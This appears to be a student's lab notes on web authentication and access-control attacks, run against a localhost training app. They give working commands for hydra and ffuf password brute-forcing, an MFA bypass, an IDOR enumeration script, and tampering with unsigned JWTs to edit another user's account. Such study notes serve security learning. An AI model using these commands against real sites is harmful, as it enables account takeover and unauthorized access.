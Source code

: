 

Authentication : Who we are, our identity eg : Aadhar card

Authorization (Access Control) : What we are allowed to do


---


### Brute-Force Attacks


1) hydra

```sh
hydra -l jeremy -P /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-1000.txt   127.0.0.1 http-post-form "/a0x01.php:username=^USER^&password=^PASS^:Your username"
```


2) Intruder


3) ffuf

```sh
ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-1000.txt:FUZZPASS 
```


---


### Attacking MFA


Login with given creds
We get MFA code

![[MFA.png]]


We cannot edit the username here so

Intercept the request, change the username to target username and forward the request

We get login to target user's account

1) Check if token Applies to multiple users, in this case it does
2) If token has very less digits, try to brute force it

---

### Challenge

Dont knwo both username and password

We use clusterbomb mode here

It is like cartesian product(all permutations tested)

```sh
ffuf -r -c -ic -request lab3req.txt -request-proto http -mode clusterbomb -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-1000.txt:FUZZPASS -w /usr/share/wordlists/seclists/SecLists-master/Usernames/top-usernames-shortlist.txt:FUZZUSER
```



---

### Authorization


Access Control : What we are allowed to do

1) Vertical Access Control : Restrict access to specific functionalities to specific users.

Example : In a web commerce app, vertical access control will prevent a customer to access admin panel to edit a product

2) Horizontal Access Control : These restrict access to specific resources for a specific user.

Example : User maybe able to view and update their own account, but they would not be able to view and update other peoples account.


3) Context Dependent Access Control : Allow or restrict Access based on the applications current state.

Example : Application may not allow us to checkout if there is nothing in our cart


***When a user is able to access functionalities, we have broken access control***


---


### IDOR(Insecure Direct Object Refrence)


```sh
ffuf -r -c -ic -w num.txt -u "http://localhost/labs/e0x02.php?account=FUZZ"
```

When adding FUZZ to a parameter, put the url inside quotes

We get lots of accounts, some of type=user and some of type=admin

Clearly broken access control

If we want to find only admin accounts, we can write a script for it

```sh
#!/bin/bash
# Declare an array named "fuzz"
fuzz=()
# Read numbers from the file "num.txt" into the array "fuzz"
readarray -t fuzz < num.txt
# Iterate over each element in the "fuzz" array
for i in "${fuzz[@]}"
do
# Construct a URL using the current element 
# Send a request to the URL using curl, suppress output (-s) # Check if the output contains the string "admin" using grep 
# If "admin" is found, print the current element
curl -s http://localhost/labs/e0x02.php?account=${i} | grep admin && echo $i

done

```



If this issue appears in API, we call it BOLA(Broken Object Level Authorization)



---


### API (Application Programming Interface)

I***f web page fetches some data and instead of entire page being updated, only certain part does, there is a high chance that API is being used.
API request is to some endpoint that returns some data and that data is processed at the client side and Javascript handles that data and presents it in suitable format***

GET requests fetch information
POST requests create information

---

### Broken Access Control


We are allowed to make few diffrent types of API calls


![[API.png]]


```sh
curl -X POST -H "Content-Type: application/json" -d '{"username": "jeremy", "password": "cheesecake"}' http://localhost/labs/api/login.php
```

Response : {"status":"success","token":"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=."} 

JWT made of 3 parts

1) Header
2) Payload : Contains the claims
3) Signature : To verify integrity(Check if JWT has been tampered with or not)

***Each part of JWT is base64 encoded"

These 3 parts are separated by a '.' . In the response we can see that there are only 2 parts, so the signature is missing, means we can tamper with the JWT


We can inspect JWT at \https://jwt.io

```sh
echo "eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=" | base64 -d
```


Response : {"user":"jeremy","role":"staff"}

```sh
curl -X GET "http://localhost/labs/api/account.php?token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=."
```


Response : {"username":"jeremy","role":"staff","bio":"Java programmer."}

```sh
curl -X POST -H "Content-Type: application/json" -d '{"username": "jessamy", "password": "tiramisu"}' http://localhost/labs/api/login.php
```

Response : {"status":"success","token":"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9."}

Since signature not being verfied, we can use Jeremy's JWT to update Jessamy's account info

```sh
curl -X PUT -H "Content-Type: application/json" -d '{"token": "eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=.", "username":"jessamy", "bio": "Update done by Jeremy"}' http://localhost/labs/api/account.php
```

Response : {"status":"success","message":"Bio updated successfully"}

Now try to access Jessamy's account info

```sh
curl -X GET "http://localhost/labs/api/account.php?token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9."
```

Response : {"username":"jessamy","role":"admin","bio":"Update done by Jeremy"} 

***This attack in API is called Broken Function Level Authorization(BFLA)***


---


### Testing With Autorize


Extension Settings : Put the Jython standalone file location to download autorize

Jeremy's JWT : eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=.

Jessamy's JWT : eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9.


Add Jessamy's JWT, switch Autorize on

Instead of passing JWT in the body, pass it as a cookie


```sh
curl -X PUT -H "Content-Type: application/json" --proxy localhost:8080 -b "session=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=." -d '{"username":"jeremy", "bio": "New bio v2"}' http://localhost/labs/api/v2/account.php

```

Response : {"status":"success","message":"Bio updated successfully"}

-b : for cookie
--proxy : So the request goes through burp suite and we can check in Autorize if the request Uthorize status was bypassed or not

![[Autorize.png]]


If request Authorized status = enforced, then the attack failed